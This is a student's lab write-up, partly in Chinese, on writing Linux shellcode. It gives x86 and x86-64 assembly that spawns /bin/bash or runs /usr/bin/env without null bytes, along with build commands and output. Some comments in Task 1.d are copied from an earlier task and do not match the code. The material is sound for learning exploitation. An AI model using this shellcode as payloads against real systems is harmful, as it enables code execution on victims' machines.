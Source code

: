# Shellcode

## Task 1: Writing Shellcode

### Task 1.a: The Entire Process

### Task 1.b. Eliminating Zeros from the Code

通过先对eax异或，然后对eax低位设置为"h"，实现在不引入0和不用多余的“/”的情况下将`/bin/bash`入栈。

```assembly
section .text
  global _start
    _start:
      ; Store the argument string on stack
      xor  eax, eax 
      mov   al, "h"
      push eax          ; Use 0 to terminate the string
      xor eax, eax
      push "/bas"
      push "/bin"
      mov  ebx, esp     ; Get the string address

      ; Construct the argument array argv[]
      push eax          ; argv[1] = 0
      push ebx          ; argv[0] points "/bin//sh"
      mov  ecx, esp     ; Get the address of argv[]
   
      ; For environment variable 
      xor  edx, edx     ; No env variables 

      ; Invoke execve()
      xor  eax, eax     ; eax = 0x00000000
      mov   al, 0x0b    ; eax = 0x0000000b
      int 0x80

```

### Task 1.c. Providing Arguments for System Calls

```assembly
section .text
  global _start
    _start:
      ; Store the argument string on stack
      xor  eax, eax 
      mov   al, "h"
      push eax
      push "/bas"
      push "/bin"       ; /bin/bash
      mov  ebx, esp     ; Get the string address

      xor  eax, eax 
      mov   ax, "-c"
      push eax       ; -c
      mov  ecx, esp     ; Get the string address

      xor  eax, eax
      mov   ax, "la"
      push eax
      push "ls -"
      mov  edx, esp     ; Get the string address

      ; Construct the argument array argv[]
      xor eax, eax      ; end of agrs
      push eax          ; argv[3] = 0
      push edx          ; argv[2] points to "ls -la"
      push ecx          ; argv[1] points to "-c"
      push ebx          ; argv[0] points "/bin//sh"
      mov  ecx, esp     ; Get the address of argv[]
   
      ; For environment variable 
      xor  edx, edx     ; No env variables 

      ; Invoke execve()
      xor  eax, eax     ; eax = 0x00000000
      mov   al, 0x0b    ; eax = 0x0000000b
      int 0x80
```

<img src="Shellcode.assets/image-20220214001219098.png" alt="image-20220214001219098" style="zoom:67%;" />

### Task 1.d. Providing Environment Variables for execve()

```assembly
section .text
  global _start
    _start:
      ; Store the argument string on stack
      xor  eax, eax 
      push eax
      push "/env"
      push "/bin"
      push "/usr"       ; /usr/bin/env
      mov  ebx, esp     ; Get the string address

      xor  eax, eax 
      push eax
      mov  edx, esp     ; Get the string address

      ; Construct the argument array argv[]
      xor eax, eax      ; end of agrs
      push eax          ; argv[3] = 0
      push edx          ; argv[2] points to "ls -la"
      push ecx          ; argv[1] points to "-c"
      push ebx          ; argv[0] points "/bin/bash"
      mov  ecx, esp     ; Get the address of argv[]
   
      ; For environment variable 
      push eax
      mov   al, "4"
      push eax
      push "=123"
      push "cccc"
      
      xor  eax, eax
      push eax
      push "5678"
      push "bbb="
      mov  eax, esp     
      xor  eax, eax
      push eax
      push "1234"
      push "aaa="
      xor  eax, eax
      push eax          ; env[3] = 0
      lea  eax, [esp+4]
      push eax          ; address to the "aaa=1234" string
      lea  eax, [esp+20]
      push eax          ; address to the "bbb=5678" string
      lea  eax, [esp+36]
      push eax          ; address to the "cccc=1234" string
      mov  edx, esp     ; Get the address of environment variables

      ; Invoke execve()
      xor  eax, eax     ; eax = 0x00000000
      mov   al, 0x0b    ; eax = 0x0000000b
      int 0x80
```

```shell
$ nano myenv.s
$ nasm -f elf32 myenv.s -o myenv.o
$ ld -m elf_i386 myenv.o -o myenv
$ ./myenv
cccc=1234
bbb=5678
aaa=1234

```

## Task 2: Using Code Segment

You need to do the followings: (1) Please provide a detailed explanation for each line of the code in mysh2.s, starting from the line labeled one. Please explain why this code would successfully execute the `/bin/sh` program, how the argv[] array is constructed, etc. (2) Please use the technique from mysh2.s to implement a new shellcode, so it executes `/usr/bin/env`, and it prints out the following environment variables:

```
a=11
b=22
```

(1) `call one`后，栈顶存放的是返回地址，即`/bin/sh*AAAABBBB`的地址。此时`pop ebx`即将该字符串地址存入ebx。该字串仅仅是一个占位符，还需要进一步修正。ebx+7设为`0x00`，表示字串的结束。`AAAA`的位置存放ebx的内容，`BBBB`位置设为`0x00000000`。然后将ebx+8（即原来字串中第一个`A`的位置）放入ecx，表示参数的地址。edx置零，表示没有环境变量。最后将eax设为`execve`的系统调用号，通过中断来启动系统调用。

（2）

`myenv2.s`:

```c
section .text
  global _start
    _start:
      BITS 32
      jmp short two

    one:
      pop ebx
      xor eax, eax
      mov [ebx+12], al
      mov [ebx+13], ebx
      mov [ebx+17], eax
      mov [ebx+25], al
      mov [ebx+30], al
      mov [ebx+39], eax
      lea ecx, [ebx+21]
      mov [ebx+31], ecx
      lea ecx, [ebx+26]
      mov [ebx+35], ecx
      lea edx, [ebx+31]
      lea ecx, [ebx+13]
      xor eax, eax
      mov al, 0x0b
      int 0x80

    two:
      call one
      db '/usr/bin/env*AAAABBBBa=11*b=22*XXXXYYYY****';
```



```shell
$ nasm -f elf32 myenv2.s -o myenv2.o
$ ld --omagic -m elf_i386 myenv2.o -o myenv2
$ ./myenv2
a=11
b=22

```



## Task 3: Writing 64-bit Shellcode

`mysh 64.s`:

```assembly
section .text
  global _start
    _start:
      xor  rdx, rdx     ; 3rd arg, stored in rdx
      push rdx
      xor  rax, rax
      mov  al, 'h'
      push rax
      mov  rax, '/bin/bas'
      push rax
      mov  rdi, rsp     ; 1st arg, stored in rdi
      push rdx
      push rdi
      mov  rsi, rsp

      ; Invoke execve()
      xor  rax, rax
      mov  al, 0x3b     ; execve()
      syscall
```

```shell
$ nasm -f elf64 mysh_64.s -o mysh_64.o
$ ld mysh_64.o -o mysh_64
```

